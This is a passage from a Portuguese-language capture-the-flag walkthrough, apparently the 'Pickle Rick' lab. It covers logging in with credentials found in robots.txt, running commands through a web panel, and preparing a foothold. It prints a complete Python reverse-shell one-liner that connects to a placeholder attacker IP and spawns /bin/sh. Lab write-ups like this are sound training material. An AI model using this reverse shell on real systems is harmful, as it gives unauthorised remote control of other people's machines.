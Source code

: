 Após olharmos as outras, não encontramos nada.... mas peraí, nós temos aquela palavra esquisita colocada no robots.txt, então entramos no /login.php e colocamos o login: R1ckRul3s e a senha: Wubbalubbadubdub e então KATCHAU!! Conseguimos entrar.

![/image12]

Após entrarmos, podemos ver que temos um tal de Command Panel, poderia ser que fosse algum painel de administrador para executar comandos, então vamos tentar executar algo nele. Usei um comando básico do Linux, o ls, que serve para listar os arquivos existentes no diretório atual e então.... BINGO! Conseguimos mais URLs.

![/image13]

Vamos dar uma checada em cada um... no primeiro, conseguimos algo. Temos que o super ingrediente secreto é o mr. meeseek hair, vamos guardar essa informação.

![/image14]

Nos assets, vemos algumas configurações do sistema, porém nada de útil.

![/image15]

Na clue, recebemos uma dica: "olhe ao redor dos arquivos do sistema para encontrar o outro ingrediente", então nós temos que entrar no sistema.

![/image16]

No denied, não tinha nada demais, não vou colocar o print pois não havia nada.

Agora, iremos voltar para a página de comandos, ele está rodando Linux, ou seja, ele pode executar comandos e abrir portas, ou seja, nós podemos fazer um reverse secure shell. Vamos utilizar esse terminal para abrir o caminho para dentro do sistema, mas primeiro vamos testar para ver se ele nos dá permissão para fazer isso.

Após alguns testes, vemos que podemos usar o Python3 no terminal.

![/image18]

Então, vamos fazer um reverse secure shell, procurando um pouco, nós achamos o Python reverse shell no Pentestmonkey. - python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("SEU IP", PORTA PARA SE ABRIR));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

![/image19]

Mas nós precisamos dar uma editada, pois o IP ali não é o nosso.

![/image20]

Para pegarmos o nosso IP, nós utilizaremos o seguinte comando: ip a s tun0. Por que utilizar assim é uma abreviação de ip addr show tun0. Tá, mas para que o tun0? É para pegarmos o IP associado à VPN.

![/image21]
